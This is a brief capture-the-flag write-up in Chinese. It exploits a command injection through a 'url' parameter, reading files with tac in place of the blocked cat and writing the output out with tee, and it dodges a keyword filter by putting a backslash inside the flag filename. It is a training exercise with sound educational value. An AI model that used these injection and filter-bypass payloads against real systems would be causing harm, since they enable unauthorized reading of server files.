![1746758880700](image/NSS/1746758880700.png)

由于cat被过滤，我们可以用tac命令
/?url=tac /a_here_is_a_f1ag | tee 2.txt
发现提示我们在fllllllaaaaaggggg里
所以尝试获取，发现la是被过滤了

尝试绕过用flllll\aaaaaaggggggg
/?url=tac /flllll\aaaaaaggggggg | tee 3.txt
访问得到flag

由于cat被过滤，我们可以用tac命令

```
/?url=tac /a_here_is_a_f1ag | tee 2.txt
```

发现提示我们在fllllllaaaaaggggg里

所以尝试获取，发现la是被过滤了

尝试绕过用flllll\aaaaaaggggggg

```
/?url=tac /flllll\aaaaaaggggggg | tee 3.txt
```

访问得到flag

![1746759199899](image/NSS/1746759199899.png)
